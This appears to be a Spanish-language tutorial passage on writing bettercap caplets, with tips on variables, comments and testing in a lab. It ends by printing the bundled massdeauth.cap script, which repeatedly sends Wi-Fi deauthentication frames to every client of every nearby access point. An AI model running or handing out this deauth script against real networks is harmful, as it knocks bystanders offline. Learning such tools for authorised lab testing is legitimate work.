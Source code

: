 Crear un caplet propio
- Guardar el contenido en un archivo con extensión .cap o sin extensión.
- Controlar variables con `set NOMBRE VALOR`.
- Usar `#` para comentarios.
- Testear incrementalmente: ejecutar comandos desde la consola antes de automatizar.

Ejemplos útiles (seguro/educativo)
- caplets de ejemplo en la carpeta de instalación pueden servir como plantilla; leerlos detenidamente.
- Caplets para monitorización, logging y pruebas en laboratorio son recomendables.

```bash
cat /usr/share/bettercap/caplets/massdeauth.cap 
set $ {by}{fw}{env.iface.name}{reset} {bold}» {reset}

# every 10 seconds deauth every client from every ap
set ticker.period 10
set ticker.commands clear; wifi.deauth ff:ff:ff:ff:ff:ff

# uncomment to only hop on these channels:
# wifi.recon.channel 1,2,3

wifi.recon on
ticker on
events.clear
clear
```
